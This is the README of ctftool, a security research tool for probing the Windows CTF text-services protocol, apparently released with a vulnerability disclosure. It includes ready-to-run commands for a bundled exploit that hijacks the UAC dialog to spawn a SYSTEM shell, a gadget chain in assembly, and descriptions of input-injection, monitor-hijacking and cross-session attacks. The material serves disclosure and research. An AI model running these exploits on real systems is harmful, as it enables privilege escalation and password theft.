


# CTFTOOL

>
> Just want to test the SYSTEM exploit? [Click here](#Exploit).
>

[](https://www.youtube.com/watch?v=r3vrzzDpmhc)

## An Interactive CTF Exploration Tool

This is `ctftool`, an interactive command line tool to experiment with CTF, a
little-known protocol used on Windows to implement Text Services. This might
be useful for studying Windows internals, debugging complex issues with Text
Input Processors and analyzing Windows security.

It is possible to write simple scripts with `ctftool` for automating interaction
with CTF clients or servers, or perform simple fuzzing.

## Background

There is a blog post that accompanies the release of this tool available here.

https://googleprojectzero.blogspot.com/2019/08/down-rabbit-hole.html

## Usage

`ctftool` has been tested on Windows 7, Windows 8 and Windows 10. Both 32-bit
and x64 versions are supported, but x64 has been tested more extensively.

There is online help for most commands, simply type `help` to see a list of
commands, and `help <command>` to see detailed help for a particular command.

```
$ ./ctftool.exe
An interactive ctf exploration tool by @taviso.
Type "help" for available commands.
Most commands require a connection, see "help connect".
ctf> help
Type `help <command>` for help with a specific command.
Any line beginning with # is considered a comment.

help            - List available commands.
exit            - Exit the shell.
connect         - Connect to CTF ALPC Port.
info            - Query server informaiton.
scan            - Enumerate connected clients.
callstub        - Ask a client to invoke a function.
createstub      - Ask a client to instantiate CLSID.
hijack          - Attempt to hijack an ALPC server path.
sendinput       - Send keystrokes to thread.
setarg          - Marshal a parameter.
getarg          - Unmarshal a parameter.
wait            - Wait for a process and set it as the default thread.
thread          - Set the default thread.
sleep           - Sleep for specified milliseconds.
forget          - Forget all known stubs.
stack           - Print the last leaked stack ptr.
marshal         - Send command with marshalled parameters.
proxy           - Send command with proxy parameters.
call            - Send command without appended data.
window          - Create and register a message window.
patch           - Patch a marshalled parameter.
module          - Print the base address of a module.
module64        - Print the base address of a 64bit module.
editarg         - Change the type of a marshalled parameter.
symbol          - Lookup a symbol offset from ImageBase.
set             - Change or dump various ctftool parameters.
show            - Show the value of special variables you can use.
lock            - Lock the workstation, switch to Winlogon desktop.
repeat          - Repeat a command multiple times.
run             - Run a command.
script          - Source a script file.
print           - Print a string.
consent         - Invoke the UAC consent dialog.
reg             - Lookup a DWORD in the registry.
gadget          - Find the offset of a pattern in a file.
section         - Lookup property of PE section.
Most commands require a connection, see "help connect".
ctf>
```

The first thing you will want to do is connect to a session, and see which
clients are connected.

```
ctf> connect
The ctf server port is located at \BaseNamedObjects\msctf.serverDefault1
NtAlpcConnectPort("\BaseNamedObjects\msctf.serverDefault1") => 0
Connected to CTF server@\BaseNamedObjects\msctf.serverDefault1, Handle 00000264
ctf> scan
Client 0, Tid 3400 (Flags 0x08, Hwnd 00000D48, Pid 8696, explorer.exe)
Client 1, Tid 7692 (Flags 0x08, Hwnd 00001E0C, Pid 8696, explorer.exe)
Client 2, Tid 9424 (Flags 0x0c, Hwnd 000024D0, Pid 9344, SearchUI.exe)
Client 3, Tid 12068 (Flags 0x08, Hwnd 00002F24, Pid 12156, PROCEXP64.exe)
Client 4, Tid 9740 (Flags 0000, Hwnd 0000260C, Pid 3840, ctfmon.exe)
```

You can then experiment by sending and receiving commands to the server, or any
of the connected clients.

## Building

> If you don't want to build it yourself, check out the [releases](https://github.com/taviso/ctftool/releases) tab

I used [GNU make](http://gnuwin32.sourceforge.net/packages/make.htm) and Visual
Studio 2019 to develop `ctftool`. Only 32-bit builds are supported, as this
allows the tool to run on x86 and x64 Windows.

If all the dependencies are installed, just typing `make` in a developer command
prompt should be enough.

I use the "Build Tools" variant of Visual Studio, and the only components I have
selected are MSVC, MSBuild, CMake and the SDK.

This project uses submodules for some of the dependencies, be sure that you're
using a command like this to fetch all the required code.

```
git submodule update --init --recursive
```

## Exploit

> The examples only work on Windows 10 x64. All platforms and versions since
> Windows XP are affected, but no PoC is currently implemented.

This tool was used to discover many critical security problem with the CTF
protocol that have existed for decades.

If you just want to test an exploit on Windows 10 x64 1903, run or double-click
`ctftool.exe` and enter this command:

```
An interactive ctf exploration tool by @taviso.
Type "help" for available commands.
Most commands require a connection, see "help connect".
ctf> script .\scripts\ctf-consent-system.ctf
```

This will wait for the UAC dialog to appear, compromise it and start a shell.

In fact, the exploit code is split into two stages that you can use
independently. For example, you might want to compromise a process belonging to
a user on a different session using the optional parameters to `connect`.

Most CTF clients can be compromised, as the kernel forces applications that draw
windows to load the vulnerable library.

Simply connect to a session, select a client to compromise (use the `scan` and
`thread` commands, or just `wait`), then:

```
ctf> script .\scripts\ctf-exploit-common-win10.ctf
```

### Exploitation Notes

Building a CFG jump chain that worked on the majority of CTF clients was quite
challenging. There are two primary components to the final exploit, an arbitrary
write primitive and then setting up our registers to call `LoadLibrary()`.

> You can use `dumpbin /headers /loadconfig` to dump the whitelisted branch
> targets.

#### Arbitrary Write

I need an arbitrary write gadget to create objects in a predictable location.
The best usable gadget I was able to find was an arbitrary dword decrement in
`msvcrt!_init_time`.

This means rather than just setting the values we want, We have to keep
decrementing until the LSB reaches the value we want. This is a lot of work,
but we never have to do more than `(2^8 - 1) * len` decrements.



Using this primitive, I build an object like this in some unused slack space
in kernel32 `.data` section. It needs to be part of an image so that I can
predict where it will be mapped, as image randomization is per-boot on Windows.


There were (of course) lots of arbitrary write gadgets, the problem was
regaining control of execution *after* the write. This proved quite challenging,
and that's the reason I was stuck with a dword decrement instead of something
simpler.

MSCTF catches all exceptions, so the challenge was finding an arbitrary write
that didn't mess up the stack so that SEH survived, or crashed really quickly
without doing any damage.

The `msvcrt!_init_time` gadget was the best I could find, within a few
instructions it dereferences NULL without corrupting any more memory. This means
we can repeat it ad infinitum.

#### Redirecting Execution

I found two useful gadgets for adjusting registers, The first was:

```
combase!CStdProxyBuffer_CF_AddRef:
      mov     rcx,qword ptr [rcx-38h]
      mov     rax,qword ptr [rcx]    
      mov     rax,qword ptr [rax+8]  
      jmp     qword ptr [combase!__guard_dispatch_icall_fptr]
```

And the second was:

```
MSCTF!CCompartmentEventSink::OnChange:
      mov     rax,qword ptr [rcx+30h]
      mov     rcx,qword ptr [rcx+38h]
      jmp     qword ptr [MSCTF!_guard_dispatch_icall_fptr]
```

By combining these two gadgets with the object we formed with our write gadget,
we can redirect execution to `kernel32!LoadLibraryA` by bouncing between them.

This was complicated, but the jump sequence works like this:



If you're interested, I recommend watching it in a debugger. Note that you will
need to use the command `sxd av` and `sxd bpe` or the debugger will stop for
every write!

## Edit Session Attacks

Apart from memory corruption, a major vulnerability class exposed by CTF are
*edit session attacks*. Normally, an unprivileged process (for example, low
integrity) would not be permitted to send input or read data from a high
privileged process. This security boundary is called UIPI, *User Interface
Privilege Isolation*.

CTF breaks these assumptions, and allows unprivileged processes to send input
to privileged processes.

There are some requirements for this attack to work, as far as I'm aware it
will only work if you have a display language installed that uses an OoP TIP,
*out-of-process text input processor*. Users with input languages that use IMEs 
(Chinese, Japanese, Korean, and so on) and users with a11y tools fall into this
category.

Example attacks include...

 * Sending commands to an elevated command window.
 * Reading passwords out of dialogs or the login screen.
 * Escaping IL/AppContainer sandboxes by sending input to unsandboxed windows.

There is an example [script](scripts/ctf-demo-editsession.ctf) in the scripts
directory that will send input to a notepad window to demonstrate how edit
sessions work.

[](docs/edit-session-full.png)

## Monitor Hijacking

Because there is no authentication involved between clients and servers in the
CTF protocol, an attacker with the necessary privileges to write to
`\BaseNamedObjects` can create the CTF ALPC port and pretend to be the monitor.

This allows any and all restrictions enforced by the monitor to be bypassed.

If you want to experiment with this attack, try the `hijack` command in `ctftool`.

```
An interactive ctf exploration tool by @taviso.
Type "help" for available commands.
ctf> hijack Default 1
NtAlpcCreatePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
NtAlpcSendWaitReceivePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
000000: 18 00 30 00 0a 20 00 00 00 11 00 00 44 11 00 00  ..0.. ......D...
000010: a4 86 00 00 b7 66 b8 00 00 11 00 00 44 11 00 00  .....f......D...
000020: e7 12 01 00 0c 00 00 00 80 01 02 00 20 10 d6 05  ............ ...
A a message received
        ProcessID: 4352, SearchUI.exe
        ThreadId: 4420
        WindowID: 00020180
NtAlpcSendWaitReceivePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
000000: 18 00 30 00 0a 20 00 00 ac 0f 00 00 0c 03 00 00  ..0.. ..........
000010: ec 79 00 00 fa 66 b8 00 ac 0f 00 00 0c 03 00 00  .y...f..........
000020: 12 04 01 00 08 00 00 00 10 01 01 00 00 00 00 00  ................
A a message received
        ProcessID: 4012, explorer.exe
        ThreadId: 780
        WindowID: 00010110
NtAlpcSendWaitReceivePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
000000: 18 00 30 00 0a 20 00 00 ac 0f 00 00 0c 03 00 00  ..0.. ..........
000010: fc 8a 00 00 2a 67 b8 00 ac 0f 00 00 0c 03 00 00  ....*g..........
000020: 12 04 01 00 08 00 00 00 10 01 01 00 58 00 00 00  ............X...
A a message received
        ProcessID: 4012, explorer.exe
        ThreadId: 780
...
```

## Cross Session Attacks

There is no session isolation in the CTF protocol, any process can connect to
any CTF server. For example, a Terminal Services user can interact with the
processes of any other user, even the Administrator.

The `connect` command in `ctftool` supports connecting to non-default sessions
if you want to experiment with this attack.

```
An interactive ctf exploration tool by @taviso.
Type "help" for available commands.
Most commands require a connection, see "help connect".
ctf> help connect
Connect to CTF ALPC Port.

Usage: connect [DESKTOPNAME SESSIONID]
Without any parameters, connect to the ctf monitor for the current
desktop and session. All subsequent commands will use this connection
for communicating with the ctf monitor.

If a connection is already open, the existing connection is closed first.

If DESKTOPNAME and SESSIONID are specified, a connection to ctf monitor
for another desktop and session are opened, if it exists.
If the specified port does not exist, wait until it does exist. This is
so that you can wait for a session that hasn't started
yet in a script.
Examples
 Connect to the monitor for current desktop
  ctf> connect
 Connect to a specific desktop and session.
  ctf> connect Default 1
Most commands require a connection, see "help connect".
```

## Status

At the time of writing, it is unknown how Microsoft will change the CTF
protocol in response to the numerous design flaws this tool helped expose.

For that reason, consider this tool to be in proof-of-concept state.

### Supported Versions and Platforms

All versions of Windows since Windows XP use CTF, on all supported platforms.

While not part of the base system until XP, versions as early as Windows 98 and
NT4 would use CTF if you installed Microsoft Office.

`ctftool` supports Windows 7 and later on x86 and x64, but earlier versions and
other platforms *could* be supported, and contributions would be appreciated.

## Acronym

Microsoft doesn't document what CTF stands for, it's not explained in any
of the Text Services documentation, SDK samples, symbol names, header files,
or anywhere else. My theory is it's from `CTextFramework`, what you might name
the class in [hungarian notation](http://web.mst.edu/~cpp/common/hungarian.html).

> There are some websites that claim `ctfmon` has something to do with Clear
> Type Fonts or the Azure Collaborative Translation Framework. They're mistaken.

> Update: [Jake Nelson](https://twitter.com/JakeNelsonMN/status/1161513319049703424) finds
> evidence for "[Common Text Framework](https://patents.google.com/patent/US20040150670#P-0091)"

## Authors

Tavis Ormandy <taviso@gmail.com>

## License

All original code is Apache 2.0, See LICENSE file for details.

The following components are imported third party projects.

* [pe-parse](https://github.com/trailofbits/pe-parse), by Andrew Ruef et al.
  * pe-parse is used to implement a `GetProcAddress()` for 64-bit modules from a
    32-bit process. This is used in the `symbol` command, and allows the same
    binary to work on x64 and x86.
* [wineditline](http://mingweditline.sourceforge.net/), by Paolo Tosco.
  * wineditline is used to implement user friendly command-line input and
    history editing.
* [dynamorio](https://www.dynamorio.org/), by Derek Bruening et al.
  * I borrowed some of the prototypes and type definitions from DR.
* [ntdll.h](http://www.zezula.net/en/prog/lpc.html), by Ladislav Zezula.
  * Ladislav collected some structure definitions and prototoypes from
    various WDK, DDK, SDK releases into one convenient file.
